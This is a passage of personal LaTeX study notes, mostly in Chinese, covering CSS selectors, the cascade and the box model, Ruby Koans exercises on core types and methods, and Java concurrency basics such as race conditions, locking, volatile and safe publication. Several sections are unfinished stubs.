    <p>
      <strong>C</strong>ascading
      <strong>S</strong>tyle
      <strong>S</strong>heets
    </p>
  </body>
</html>
\end{HTML5}

\section{How CSS works}

\begin{itemize}
\item The browser converts the markup language and the CSS into the DOM (Document Object Model). The DOM represents the document in the computer's memory. It combines the document's content with its style.
\item The browser displays the contents of the DOM.
\end{itemize}


\section{CSS Rule}


\includegraphics[scale=0.75]{css/resources/css-rule.jpg}

\section{Selector}

A selector is a chain of one or more sequences of simple selectors separated by combinators.

A sequence of simple selectors is a chain of simple selectors that are not separated by a combinator.



选择器是通过combinator分割开的一系列选择器组合起来的。

而一系列选择器是一系列简单选择器他们之间没有被combinator分开。

简单选择器是一个type selector, universal selector, attribute selector, class selector, ID selector, content selector, pseudo class。 而一个pesudo element可能出现在简单选择器的最后(???这个时候是简单选择器,还是一系列选择器??)。


\subsection{Simple selector}

A simple selector is either a type selector, universal selector, attribute selector, class selector, ID selector, content selector, or pseudo-class. One pseudo-element may be appended to the last sequence of simple selectors.

\subsubsection{Type selector}

A type selector is the name of a document language element type.

就是HTML的标签名来选择元素。

\begin{CSS}
<style>
p {color:red;}
div {border:1px; border-style:solid;}
</style>

<p>first line</p>
<p>second line</p>
<div>third line</div>
\end{CSS}


\subsubsection{Universal Selector}


\subsection{Pseudo-Class \& Pseudo-Element}

%\paragraph{:first-child}

%\paragraph{:link \& :visited}



\subsection{规则应用}

如果有多条规则应用到同一个元素,那么哪条规则会最终取胜。CSS提供了三种机制:继承,层叠和特指。


\subsubsection{继承}

从祖先元素继承样式;CSS中很多属性是可以继承的,相当一部分和文本相关,如颜色,字体,字号。

也有很多属性是不能继承的(因为继承这些属性没有意义)。不能继承的主要是涉及到元素盒子的定位和显示方式。比如边框,外边距,内边距。

\subsubsection{层叠}

对于元素中某个标签的特定属性值有多个来源是,最终确定使用哪个值。

Style sheets may have three different origins: author, user, and user agent.

样式来源主要有三个,浏览器,用户和作者:
\begin{itemize}
\item 第一,首先浏览器有个默认的样式表;
\item 然后,有一个用户样式表,可以通过用户样式表,来强制所有网站按这个样式来显示;
\item 在这就是作者样式表,有三种方式:连接样式,嵌入样式和行内样式
\end{itemize}

层叠顺序
\begin{enumerate}
\item 浏览器默认样式表
\item 用户样式表
\item 作者连接样式表(按照特闷连接到页面的先后顺序)
\item 作者嵌入样式
\item 作者行内样式
\end{enumerate}

按上面的顺序来更新对每个标签属性的值,这个检查结束后,再将每个标签以最终设定的样式显示出来。

The CSS cascade assigns a weight to each style rule. When several rules apply, the one with the greatest weight takes precedence. 

By default, rules in author style sheets have more weight than rules in user style sheets. Precedence is reversed, however, for "!important" rules. All user and author rules have more weight than rules in the UA's default style sheet. 


最终的层叠规则是:
\begin{enumerate}
\item 先找出每个元素以及元素的属性;
\item 按照顺序和权重排序,顺序就是上述五个来源来选择,权重可以通过\lstinline$空格!important$来加重声明的权重。
\item 按特指读排序。表示一条规则有多明确,则优先级别高
特制度计算:I-C-E
\begin{itemize}
\item 选择符中有一个ID,就在I的位置上加1;
\item 选择符中有一个类,就在C的位置上加1;
\item 选择符上有一个元素标签名,就在E的位置加上1;
\end{itemize}
\item 如果所有都一样,则声明靠后的优先级别高
\end{enumerate}




\subsection{CSS Specification}

Once a user agent has parsed a document and constructed a document tree, it must assign, for every element in the tree, a value to every property that applies to the target media type.

The final value of a property is the result of a four-step calculation: the value is determined through specification (the "specified value"), then resolved into a value that is used for inheritance (the "computed value"), then converted into an absolute value if necessary (the "used value"), and finally transformed according to the limitations of the local environment (the "actual value").

%\paragraph{Specified Value}
\begin{itemize}
\item If the cascade results in a value, use it.
\item Otherwise, if the property is inherited and the element is not the root of the document tree, use the computed value of the parent element. 
\item Otherwise use the property's initial value. The initial value of each property is indicated in the property's definition. 
\end{itemize}

%\paragraph{Compute Value}

%\paragraph{Used Value}

%\paragraph{Actual Value}



\section{属性}

\subsection{Property Definition}



属性值主要分为三类:

\begin{itemize}
\item 文本值
\item 数字值,数字值分为绝对值和相对值;

绝对值这里我们只使用像素(px);

相对值有(em, ex, \%),em表示一种字体中字母"M"的宽度,ex等于字体中字母"x"高度。\%百分比适合设定诶包含的元素的宽度。

\item 颜色值,颜色名(red),16进制颜色(\#RGB,\#RRGGBB),RGB颜色值(rgb(0,255,0)),RGB百分比值(R\%,G\%,B\%),HSL(色相,饱和度\%,亮度\%)
\end{itemize}


\section{定位元素}

盒模型就是页面中的每个元素生成的矩形盒子。这些合资都要按照课件板式模型在页面上排布。主要由三个属性控制:position,display,float。

其中,position属性控制页面上元素间的位置关系;display控制元素是堆叠,还是并排,还是根本不在页面上出现;float属性提供控制的方式,以便把元素组成多栏布局(???这个解释不是太清楚)。

\subsection{盒模型}

盒子的属性:
\begin{itemize}
\item 边框(border),可以设置边框的宽窄,样式和颜色;
\item 内边距(padding),可以设置盒子内容区域边框的间距;
\item 外边距(margin),可以设置盒子与相邻元素的间距。
\end{itemize}


\includegraphics[scale=1]{css/resources/box-mode.png}


\begin{CSS}[上 右 下 左]
{margin: 5px 10px 12px 18px;}
\end{CSS}

如果有值没有写,则取对边的值,如果只写了一个值,则四边都取这个值。


border三个属性 宽度(width), 样式(style), 颜色(color)。 border还有第四个属性radius,但是不影响和模型的定位。

\begin{CSS}[三个粒度]
{border: 2px dashed red;} // 全部3个属性,全部4条边
{border-style: dashed;} // 一个属性,四条边
{broder-left-style: dashed;} // 一个属性,一条边
\end{CSS}

内边框和外边框。


\begin{CSS}[中和外边框和内边框,使不同浏览器效果一致]
* {margin: 0; padding: 0;}
\end{CSS}


(!!!!我记得这和有个什么显示方式有关,默认情况下上下排列才是垂直方向上外边距叠加,需要看文档补充一下)
垂直方向上的外边距会叠加。

外边框叠加,比如有两个段落,第1个段落的下外边距是50px,第2个段落的上外边框为30px,那么他们之间的外边框是50px。因为这种上下外边框相遇的情况下,他们会相互重叠,直到一个外边框碰到另一个元素的边框。

\subsubsection{盒子大小}

对于块级元素,如果没有设置width,那么他的默认值就是auto,结果会让元素的狂度扩充到与父元素同宽;如果添加水平边框,内边距和外边距,会导致内容宽度减少,减少量等于水平边框,内边距和外边距增加之和。

明确设定width之后,块级元素就不会再扩展到与父元素同宽了。盒子width属性指定的只是盒子内容区的宽度,而不是盒子要占住的水平宽度。


\subsection{float \& clear}



\part{Ruby}  
\chapter{Ruby Koans}

开始使用Koans来学习Ruby,第一步,当然是安装Ruby,然后设置环境变量。

\section{Koans流程}

\subsection{assert}

我们可以通过assert来测试确定我们的代码是否按照我们期望的方式来运行。可以使用assert和assert\_equal。

\lstinputlisting[
	style=ruby,
	linerange={10-10},
	firstnumber=1
]{code/ruby/koans/about_asserts.rb}

\lstinputlisting[
	style=ruby,
	linerange={33-33},
	firstnumber=1
]{code/ruby/koans/about_asserts.rb}

\subsection{nil}

和其他语言不太一样,Ruby中,表示Null的nil是一个对象。

\lstinputlisting[
	style=ruby,
	linerange={5-5},
	firstnumber=1
]{code/ruby/koans/about_nil.rb}

\lstinputlisting[
	style=ruby,
	linerange={25-27},
	firstnumber=1
]{code/ruby/koans/about_nil.rb}


\lstinputlisting[
	style=ruby,
	linerange={38-38},
	firstnumber=1
]{code/ruby/koans/about_nil.rb}


\subsection{Object}
万物皆为Object。Object是默认的所哟Ruby对象的祖先。

\lstinputlisting[
	style=ruby,
	linerange={5-9},
	firstnumber=1
]{code/ruby/koans/about_objects.rb}

每个对象有一个不同的object\_id


\subsection{Array}
数组可以直接通过Array.new或者[]来创建,数组长度可以动态增长。可以通过length来取得数组的长度。注意<<,他是将333添加到数组的最后,类似于push方法,不过这个方法返回数组本身,所以可以连续添加。

\lstinputlisting[
	style=ruby,
	linerange={11-24},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}


数组的index从0开始,可以是正数,也可以是负数,负数的话,就是从最后往前计算。

\lstinputlisting[
	style=ruby,
	linerange={28-35},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}

通过array[start, length]可以取得数组中的一个子数组。注意最后两行个结果的区别,一个是[],一个是nil。如果start是数组的结尾,返回[],如果start超出数组长度,则返回nil。

\lstinputlisting[
	style=ruby,
	linerange={39-47},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}

通过range也可以取得array[start..end],或者array[start...end]。区别是...不包括最后一个元素。同样start超出或者在结尾和上面产生相同效果。

\lstinputlisting[
	style=ruby,
	linerange={58-64},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}

同时,其他语言一般有的push, pop(最后添加和弹出), unshift, shift(最前面插入和弹出)方法也有。

\lstinputlisting[
	style=ruby,
	linerange={68-75},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}

\lstinputlisting[
	style=ruby,
	linerange={79-86},
	firstnumber=1
]{code/ruby/koans/about_arrays.rb}

对于数组变量的赋值,Ruby提供了一些很方便的操作。

\lstinputlisting[
	style=ruby,
	linerange={10-12},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

可以看到变量和数组中的元素是按从开始到结尾的顺序一一对应的,如果变量不够就抛弃后面的元素,如果元素不够的话,就分配nil。
\lstinputlisting[
	style=ruby,
	linerange={16-18},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

\lstinputlisting[
	style=ruby,
	linerange={28-30},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

\lstinputlisting[
	style=ruby,
	linerange={34-36},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

如果想要最后一个元素保存剩余元素的一个数组,使用*放在变量之前。

\lstinputlisting[
	style=ruby,
	linerange={22-24},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

如果只想取得第一个元素,可以像下面这样,变量后面加一个,

\lstinputlisting[
	style=ruby,
	linerange={40-41},
	firstnumber=1
]{code/ruby/koans/about_array_assignment.rb}

下面是一个方便交换变量的值的方法。

\begin{Ruby}
	first_name = "Roy"
	last_name = "Rob"
	first_name, last_name = last_name, first_name
	assert_equal "Rob", first_name
	assert_equal "Roy", last_name
\end{Ruby}


\subsection{Hash}
Hash的创建可以通过字面常量,new方法。

\begin{Ruby}
	hash = { :one => "uno", :two => "dos" }
	assert_equal "uno", hash[:one]
	assert_equal "dos", hash[:two]
	assert_equal nil, hash[:doesnt_exist]
\end{Ruby}

当new不带参数时,创建一个空的Hash。当new带一个参数是,设定了default值,当Hash中不存在某个key时,返回default值。
default值也可以通过hash对象的default来修改。

\begin{Ruby}
    hash1 = Hash.new
    hash1[:one] = 1

    assert_equal 1, hash1[:one]
    assert_equal nil, hash1[:two]

    hash2 = Hash.new("dos")
    hash2[:one] = 1

    assert_equal 1, hash2[:one]
    assert_equal "dos", hash2.default
    assert_equal "dos", hash2[:two]
    assert_equal "dos", hash2[:three]

    hash2.default = "uno"

    assert_equal "uno", hash2[:four]
\end{Ruby}

当new带有代码块是,取某个不存在的值的时候,会调用代码块。

\begin{Ruby}
    hash = Hash.new {|hash, key| hash[key] = [] }

    hash[:one] << "uno"
    hash[:two] << "dos"

    assert_equal ["uno"], hash[:one]
    assert_equal ["dos"], hash[:two]
    assert_equal [], hash[:three]
\end{Ruby}


\subsection{String}
我们可以使用'或者"来生成一个String的字面常量。
\begin{Ruby}
    string = "Hello, World"
    assert_equal true, string.is_a?(String)
    
    string = 'He said, "Go Away."'
    assert_equal "He said, \"Go Away.\"", string
    
\end{Ruby}

他们的不同之处是"中可以插入变量,同时,有些转义符在'中不生效。
\begin{Ruby}
	value = 123
    string = "The value is #{value}"
    assert_equal "The value is 123", string
    
    value = 123
    string = 'The value is #{value}'
    assert_equal "The value is \#{value}", string
    
    string = "\n"
    assert_equal 1, string.size
    
    string = '\n'
    assert_equal 2, string.size
    
    string = '\\\''
    assert_equal 2, string.size
    assert_equal "\\'", string
\end{Ruby}

除了"和',我们还可以自定义包裹字符串的符号。(TODO:具体了解一下这个地方左右是怎么对应的。)如:
\begin{Ruby}
    a = %(flexible quotes can handle both ' and " characters)
    b = %!flexible quotes can handle both ' and " characters!
    c = %{flexible quotes can handle both ' and " characters}
    assert_equal true, a == b
    assert_equal true, a == c
\end{Ruby}

还有一种叫做Here Document的方式,采用<<加一个包裹符号。
\begin{Ruby}
    long_string = <<EOS
It was the best of times,
It was the worst of times.
EOS
    assert_equal 53, long_string.length
    assert_equal 2, long_string.lines.count
    assert_equal 'I', long_string[0,1]
\end{Ruby}
他的内容是EOS和EOS之间的内容,第一个EOS之后的回车不会计算到字符串中,这不同于前面的方式,下面代码的第一个回车是会计入到字符串中间的。
\begin{Ruby}
    long_string = %{
It was the best of times,
It was the worst of times.
}
    assert_equal 54, long_string.length
    assert_equal 3, long_string.lines.count
    assert_equal "\n", long_string[0,1]
\end{Ruby}

我们还可以很方便的使用[]取得子字符串,其中的参数是start, length。如果只有一个参数,就表示取得这个索引的字符。和数组一样。
\begin{Ruby}
    string = "Bacon, lettuce and tomato"
    assert_equal "let", string[7,3]
    assert_equal "let", string[7..9]
    
    string = "Bacon, lettuce and tomato"
    assert_equal "a", string[1]
\end{Ruby}

数组的拼接有两种方式,+和<<,两者稍有不同,可以从下面的代码看出来。
\begin{Ruby}
    string = "Hello, " + "World"
    assert_equal "Hello, World", string
    
    hi = "Hello, "
    there = "World"
    string = hi + there
    assert_equal "Hello, ", hi
    assert_equal "World", there
    
    hi = "Hello, "
    there = "World"
    hi += there
    assert_equal "Hello, World", hi
    
    original_string = "Hello, "
    hi = original_string
    there = "World"
    hi += there
    assert_equal "Hello, ", original_string   
    
    hi = "Hello, "
    there = "World"
    hi << there
    assert_equal "Hello, World", hi
    assert_equal "World", there

    original_string = "Hello, "
    hi = original_string
    there = "World"
    hi << there
    assert_equal "Hello, World", original_string             
\end{Ruby}
+是不会改变原来的字符串的,+=也只是将变量引用新的字符串。而<<则修改了字符串的内容。

然后就还有一些基本的方法,如拼接,分隔。这些方法其他语言都有。
\begin{Ruby}
    string = "Sausage Egg Cheese"
    words = string.split
    assert_equal ["Sausage", "Egg", "Cheese"], words
    
    string = "the:rain:in:spain"
    words = string.split(/:/)
    assert_equal ["the", "rain", "in", "spain"], words
    
    words = ["Now", "is", "the", "time"]
    assert_equal "Now is the time", words.join(" ")        
\end{Ruby}

最后,有一点需要注意,相同的字面常量引用的实际上不是一个对象。
\begin{Ruby}
    a = "a string"
    b = "a string"

    assert_equal true, a           == b
    assert_equal false, a.object_id == b.object_id
\end{Ruby}


\subsection{Symbol}
我的感觉Symbol就是一个特殊类型的对象,使用:name或者:"name"无论在什么地方都是引用的相同的对象,具有相同的object\_id。要注意的是,它本身不是string,而是一种特殊类型的对象。
\begin{Ruby}
    symbol1 = :a_symbol
    symbol2 = :a_symbol
    symbol3 = :something_else

    assert_equal true, symbol1 == symbol2
    assert_equal false, symbol1 == symbol3
    
    string = "catsAndDogs"
    assert_equal :catsAndDogs, string.to_sym
    assert_equal :catsAndDogs, :"catsAndDogs"	    
    
    symbol = :"cats and dogs"
    assert_equal "cats and dogs".to_sym, symbol
\end{Ruby}

(TODO:目前对symbol的印象和作用了解的还不是很深,等之后再补充)



\subsection{Regular Expression}
目前来看基本和其他语言的正则表达式没啥区别,需要注意的是是贪婪匹配。string[]没有匹配时返回nil。string[]最左边的匹配会被返回。
\begin{Ruby}
	assert_equal "abb", "abbcccddddeeeee"[/ab*/]

    assert_equal nil, "some matching content"[/missing/]
    
    assert_equal "a", "abbccc az"[/az*/]
\end{Ruby}

下面是我以前没有注意的
\begin{itemize}
\item .表示除了\textbackslash\ n所有的字符。
\item \textbackslash\ A表示字符串的头,\textbackslash\ Z表示字符串的结尾。
\end{itemize}

然后就是一些貌似Ruby有的\$1, \$2在匹配之后可以使用
\begin{Ruby}
    assert_equal "Gray, James", "Name:  Gray, James"[/(\w+), (\w+)/]
    assert_equal "Gray", $1
    assert_equal "James", $2
\end{Ruby}

另外3个String中和正则相关的方法。scan找出所有匹配,sub替换第一个找到的匹配,gsub替换所有找到的匹配
\begin{Ruby}
    assert_equal ["one", "two", "three"], "one two-three".scan(/\w+/)
    
    assert_equal "one t-three", "one two-three".sub(/(t\w*)/) { $1[0, 1] }
    
    assert_equal "one t-t", "one two-three".gsub(/(t\w*)/) { $1[0, 1] }     
\end{Ruby}


\subsection{Methods}
依稀记得,Ruby中所有的操作符什么的都是方法(TODO:这里以后再补充,具体现在也不清楚)。

使用def来定义方法,对方法的调用可以带括号,或者不带括号。
\begin{Ruby}
	def my_global_method(a,b)
  		a + b
	end

	assert_equal 5, my_global_method(2,3)	
	
	result = my_global_method 2, 3
    assert_equal 5, result
\end{Ruby}

方法定义的时候可以给参数带默认值
\begin{Ruby}
  	def method_with_defaults(a, b=:default_value)
    	[a, b]
  	end
  
    assert_equal [1, :default_value], method_with_defaults(1)
    assert_equal [1, 2], method_with_defaults(1, 2)
\end{Ruby}

可变参数
\begin{Ruby}
  	def method_with_var_args(*args)
   		args
  	end
  
    assert_equal Array, method_with_var_args.class # call the method without arguments
    assert_equal [], method_with_var_args
    assert_equal [:one], method_with_var_args(:one)
    assert_equal [:one, :two], method_with_var_args(:one, :two)
\end{Ruby}

如果方法没有显示的返回,就返回方法最后一行代码的返回值。
\begin{Ruby}
  	def method_without_explicit_return
    	:a_non_return_value
    	:return_value
  	end
  	
  	assert_equal :return_value, method_without_explicit_return
\end{Ruby}


对于同一个class的方法,可以直接调用,或者self.来调用。

定义私有方法。(TODO:补充)
\begin{Ruby}
  class Dog
    def name
      "Fido"
    end

    private

    def tail
      "tail"
    end
  end
\end{Ruby}

\subsection{Keyword Arguments}

\subsection{Control Statements}

\subsection{True \& False}

\subsection{Exception}

\subsection{Iteration}

\subsection{Block}

\subsection{Sandwich Code}

\subsection{Class}

\subsection{Inheritances}

\subsection{Modules}






























\part{Java}
\chapter{Concurrency}

\section{简介}
\subsection{线程的风险}

\subsubsection{安全性问题}
Race Condition 竞争条件

\begin{Java}
@NotThreadSafe
public class UnsafeSequence {

	private int value;

	/*
	 * ++包含三个操作,读取value,将value加1,将结果写入Value。
	 * 
	 * A   -- value->9 -------- 9+1->10 -------- value=10  
	 * B   ----------- value->9 ------- 9+1->10--------- value=10      
	 */
	public int getNext() {
		return value++;
	}
}
\end{Java}

下面是线程安全版本:
\begin{Java}
@ThreadSafe
public class Sequence {

	@GuardedBy("this")private int value;

	public synchronized int getNext() {
		return value++;
	}
}
\end{Java}

线程安全的代码,其核心就是要对状态访问操作的管理,特别是对共享和可变状态的访问。

共享意味着变量可以由多个线程同时访问,而可变则意味着变量的值在其生命周期内可以发生变化。

当多个线程访问某个状态变量并且其中有一个线程执行写入操作时,必须采用同步机制来协同这些线程对变量的访问。

同步包括synchronized,volatile和Explicit Lock.

当多个线程访问同一个可变的状态变量时没有使用合适的同步,修复这个问题
\begin{itemize}
\item 不在现在成之间共享该状态变量
\item 将状态变量修改成不可变的变量
\item 在访问变量时使用同步
\end{itemize}

越少代码访问某个变量,就越容易确保对变量的所有访问都实现正确同步。这也是代码封装的好处。


线程安全的核心概念就是正确性。

\paragraph{无状态的对象一定是线程安全的}比如说Servlet
\begin{Java}
@ThreadSafe
public class StatelessFactorizer extends AbstractFactorizer implements Servlet {
	
	@Override
	public void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		BigInteger[] factors = factor(i);
		encodeIntoResponse(resp, factors);
	}

}
\end{Java}

\paragraph{原子性} 如同前面所说,下面的++操作线程不安全。

\begin{Java}
@NotThreadSafe
public class UnsafeCountingFactorizer extends AbstractFactorizer implements Servlet {

	private long count = 0;
	
	public long getCount(){ return count; }
	
	@Override
	public void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		BigInteger[] factors = factor(i);
		++count;
		encodeIntoResponse(resp, factors);
	}
	
}
\end{Java}

最常见的竞争条件是“先检查后执行”操作,即通过一个可能失效的光查结果来决定下一步的动作。

\begin{Java}
@NotThreadSafe
public class LazyInitRace {

	private ExpensiveObject instance = null;
	
	public ExpensiveObject getInstance() {
		if(instance == null) {
			instance = new ExpensiveObject();
		}
		return instance;
	}
}
\end{Java}

\paragraph{符合操作}上面的例子需要以原子方式执行一组操作。以避免竞争条件。在某个线程修改该变量时,通过某种方式防止其他线程使用这个变量,确保其他线程只能在修改完成之前或者之后读取和修改。


\begin{Java}[使用AtomicLong来实现原子操作]
@ThreadSafe
public class CountingFactorizer extends AbstractFactorizer implements Servlet {

	private final AtomicLong count = new AtomicLong();
	
	@Override
	public void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		BigInteger[] factors = factor(i);
		count.incrementAndGet();
		encodeIntoResponse(resp, factors);
	}

}
\end{Java}

\paragraph{加锁}通过缓存结果来提高性能,有多个安全状态变量的时候不是线程安全的。
\begin{Java}
@NotThreadSafe
public class UnsafeCachingFactorizer extends AbstractFactorizer implements
		Servlet {
	
	private final AtomicReference<BigInteger> lastNumber 
		= new AtomicReference<BigInteger>();
	private final AtomicReference<BigInteger[]> lastFactors
		= new AtomicReference<BigInteger[]>();

	@Override
	public void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		if (i.equals(lastNumber.get())) {
			encodeIntoResponse(resp, lastFactors.get());
		} else {
			BigInteger[] factors = factor(i);
			lastNumber.set(i);
			lastFactors.set(factors);
			encodeIntoResponse(resp, factors);
		}
	}

}
\end{Java}
这是因为多个变量不是独立的,需要单个原子操作更新所有相关的状态变量。

\paragraph{内置锁}

synchronized是使用this对象作为锁,
静态的synchronized方法以Class对象作为锁

\begin{Java}[性能很差,只有单个线程相应]
@ThreadSafe
public class SynchronizedFactorizer extends AbstractFactorizer implements
		Servlet {

	@GuardedBy("this")private BigInteger lastNumber;
	@GuardedBy("this")private BigInteger[] lastFactors;

	@Override
	public synchronized void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		if (i.equals(lastNumber)) {
			encodeIntoResponse(resp, lastFactors);
		} else {
			BigInteger[] factors = factor(i);
			lastNumber = i;
			lastFactors = factors;
			encodeIntoResponse(resp, factors);
		}
	}
}
\end{Java}

\paragraph{重入}一个线程已经获得锁,那么他可以重入

\paragraph{用锁保护状态}锁保护中代码路径以串行形式来访问,要保证使用所来协调对某个变量的访问是,使用的是用一个锁。不单只写入需要同步,访问的时候也需要,这样保证访问到的值是正确的的。

获取与某对象相关联的锁之后,并不能阻止其他对象访问该对象,只能阻止其他线程获取这个锁。

涉及到包含多个变量的不变性条件,涉及到的所有变量都需要使用同一个锁来保护。

\paragraph{活跃性与性能}滥用锁可能导致的问题是活跃性和性能的问题。

应该尽量将不影响共享状态且执行时间较长的操作从同步带吗中分离出去。

\begin{Java}
@ThreadSafe
public class CachedFactorizer extends AbstractFactorizer implements Servlet {
	
	@GuardedBy("this") private BigInteger lastNumber;
	@GuardedBy("this") private BigInteger[] lastFactors;
	@GuardedBy("this") private long hits;
	@GuardedBy("this") private long cacheHits;

	public synchronized long getHits() {return hits;}
	public synchronized double getCacheHitRatio() {
		return (double)cacheHits / (double)hits;
	}
	
	@Override
	public void service(ServletRequest req, ServletResponse resp)
			throws ServletException, IOException {
		BigInteger i = extractFromRequest(req);
		BigInteger[] factors = null;
		synchronized (this) {
			++hits;
			if (i.equals(lastNumber)) {
				++cacheHits;
				factors = lastFactors.clone();
			} 
		}
		
		if (factors == null) {
			factors = factor(i);
			synchronized (this) {
				lastNumber = i;
				lastFactors = factors.clone();
			}
		}
		encodeIntoResponse(resp, factors);
	}

}
\end{Java}

这里没有使用Atomic是因为已经使用了同步代码块,不要把两种风格的代码混到一起,容易引起混乱。

执行时间较长的操作,一定不要持有锁。如网络I/O或者控制台I/O.



\subsubsection{活跃性问题}

活跃性问题关注“某件正确的事情最终会发生”

死锁,饥饿,活锁

\subsubsection{性能问题}

\section{对象的共享}

\subsection{可见性}

synchronized的作用
\begin{itemize}
\item 实现原子性,确定临界区。防止某个线程在使用对象状态时,其他线程修改对象的状态。
\item 内存可见性。确保一个线程修改了对象状态后,其他线程能够看到发生的变化。
\end{itemize}

\begin{Java}
public class NoVisibility {
	private static boolean ready;
	private static int number;
	
	private static class ReaderThread extends Thread {
		public void run() {
			while(!ready){
				Thread.yield();
			}
			System.out.println(number);
		}
	}
	
	public static void main(String[] args) {
		new ReaderThread().start();
		number = 42;
		ready = true;
	}
}
\end{Java}

上面的代码的结果没办法保证,也许是42,也可能输出0,也可能没办法终止。

在没有同步的情况下,编译器,处理器以及运行时等都有可能对操作的执行顺序进行一些意想不到的调整。避免这种情况的办法是在多线程共享数据时,正确的使用同步。


没有同步访问value是非线程安全的。


\subsubsection{失效数据}

\begin{Java}
@NotThreadSafe
public class MutableInteger {
	private int value;
	
	public int get() {return value;}
	public void set(int value) { this.value = value;}
} 
\end{Java}


\begin{Java}[get和set必须同时设定为同步才能保证可见性]
@ThreadSafe
public class SynchronizedInteger {
	@GuardedBy("this") private int value;
	
	public synchronized int get() {return value;}
	public synchronized void set(int value) { this.value = value;}
}
\end{Java}


\subsubsection{非原子的64位操作}

非volatile的64为数值变量的读写操作分解为两个32位操作。

\subsubsection{加锁和可见性}

AB两个线程,内置锁可以保证当B线程执行所保护的同步代码块的时候,可以看到线程A之前在同一个锁保护的同步代码块中所有操作结果。

要求访问某个变量的所有线程在同一个锁上同步,就是确保某个写入该变量的值对于其他线程是可见的。

加锁的含义是互斥和内存可见。

\subsubsection{volatile变量}

volatile声明的变量,编译器与运行时会注意到该变量是共享的,不会将对该变量的操作与其他内存操作一起重排序,volatile变量不会被缓存在存储器或者对其他处理器不可见的地方,因此在读取volatile类型的变量时总会返回最新写入的值。


volatile对可见性的影响。

A线程首先写入一个volatile变量,然后线程B读取该变量。在写入volatile变量之前对A可见的所有变量的值,在B读取了volatile变量后,对B也是可见的。


volatile变量只能保证可见性,不能保证原子性。


\subsection{发布与逸出}

发布就是使对象能够在当前作用于之外的代码中使用。

逸出就是本不该被发布的对象被发布了。

安全的对象构造过程:不要在构造过程中使this引用逸出。

常见的错误是:在构造函数中启动一个线程,this引用被新创建的线程共享。

\subsection{线程封闭}

线程封闭就是不共享数据,这样就不需要同步了。

\subsubsection{Ad-hoc线程封闭}

线程封闭的职责完全由程序实现来承担。这种方式非常脆弱,因为没有一种语言特性能将对象封闭到目标线程。

实现比如在volatile变量上,只有一个特定的线程对volatile变量进行写入操作,其他线程都只执行读取操作。这样就避免了竞争条件。而volatile又保证了变量的可见性。

\subsubsection{栈封闭}

线程封闭的一个特例,只有局部变量才能访问对象。程序员要做的就是要确保被引用的对象不会逸出。

\subsubsection{ThreadLocal类}

ThreadLocal保证了每个线程中只有一个对象。类似于全局变量,但是如果滥用会导致程序耦合,和使用全局变量导致耦合一样。


\subsection{不变性}

不可变对象一定是线程安全的。对于不便对象,失效数据,丢失更新操作或者观察到对象处于不一致的状态,对于不变对象来说,都是不存在的。

这里说的这些问题,是说的不便对象本身的属性的访问。如果另外一个对象有一个不变对象的引用,这个引用没有同步还是存在可见性问题。

满足什么条件对象才是不可变的:
\begin{itemize}
\item 对象创建以后其状态就不能修改;这一点,说明final引用的对象也是不可变的或者是基本类型(我的理解)
\item 对象的所有域都是final类型;
\item 对象是正确创建的(对象在创建期间,this引用没有逸出)
\end{itemize}


\subsubsection{Final}

final除了表示不能修改之外,还能保证初始化过程的安全性。从而可以不受限制的访问不变对象。

这里说的应该是final引用,但是final引用的对象不是正确发布或者不变对象的话,访问这个对象的状态还是可能存在问题。


使用volatile类型来发布不可变对象。这里使用volatile类型就是说明引用还是要自己保证可见性,而不变对象自身是安全的。

\begin{Java}
//补充代码
\end{Java}

\subsection{安全发布}

对于共享对象,最开始要保证的问题就是确保对象能够被安全的发布。只是将对象保存在公有域中,不能安全的发布对象。

\begin{Java}
public class Publish {

	public Holder holder;
	
	public void initialize() {
		holder = new Holder(42);
	}
}

public class Holder {
	
	private int n;

	public Holder(int i) {
		this.n = i;
	}

	public void assertSanity() {
		if (n != n) {
			throw new AssertionError("This statment is false.");
		}
	}
}
\end{Java}

这里的问题有几个
\begin{itemize}
\item 引用的可见性,其他线程可能看不到这个发布的对象的引用。
\item 由于holder未被正确的发布,holder的状态是失效的,即使对象发布后没有修改过,可能某个线程会看到对象处于不一致的状态,然后对象状态突然发生变化。这个线程调用assertSanity时会抛出异常。
\end{itemize}

\subsubsection{不可变对象与初始化安全性}

即使某个对象的引用对于其他线程是可见的,也并不意味着对象状态对于使用该对象的线程来说一定是可见的。

为了确保对象状态能呈现一致的视图,就必须使用同步。

